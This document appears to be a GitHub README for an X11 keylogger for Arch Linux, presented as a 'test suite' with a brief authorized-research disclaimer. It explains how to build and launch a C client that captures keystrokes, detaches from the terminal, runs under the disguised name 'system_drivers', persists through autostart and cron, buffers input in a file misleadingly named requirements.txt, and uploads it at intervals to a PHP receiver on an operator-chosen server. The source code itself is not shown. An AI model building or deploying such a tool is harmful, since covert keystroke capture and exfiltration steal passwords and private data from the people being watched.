

# X11 Keylogger Test Suite (Arch Linux)

Automated test harness for evaluating X11 input telemetry, background process detaching (`nohup` / `disown`), persistence triggers, and HTTP exfiltration on Arch Linux.

> **Disclaimer**: This test suite is intended exclusively for authorized security research and lab testing.

## Execution Workflow



## Structure

```text
KL-test/
├── main.c           # C client implementation (X11 hooks & exfiltration)
├── run.sh           # Shell launcher: checks toolchain, compiles, and detaches process
├── receiver.php     # PHP backend receiving exfiltrated payloads
└── README.md        # Documentation
```

## Requirements

Arch Linux:
```bash
sudo pacman -S --needed base-devel gcc libx11 curl
```

Server:
- PHP 7.4+ with web server (Nginx, Apache, Caddy)

## Usage

### 1. Server Configuration
Upload `receiver.php` to your web server:
```bash
mkdir -p logs
chmod 775 logs
```

### 2. Client Configuration
Specify the target endpoint in `main.c`:
```c
#define SERVER "your-domain.dev"   // Domain or IP without protocol prefix
#define SCRIPT_PATH "/receiver.php"
#define UPLOAD_INTERVAL 60         // Seconds
```

### 3. Build & Launch
```bash
chmod +x run.sh
./run.sh
```

Sample output:
```text
[*] Spouštím keylogger (odpojen od terminalu)...
[+] Běží. PID: 45182
[*] Stop: pkill -f system_drivers
```

## Cleanup

```bash
# Terminate background process
pkill -f system_drivers

# Remove persistence
rm -f ~/.config/autostart/system_drivers.desktop
crontab -l | grep -v 'system_drivers' | crontab -

# Remove binary and local buffer
rm -f ./system_drivers ~/Documents/requirements.txt
```

## License

MIT
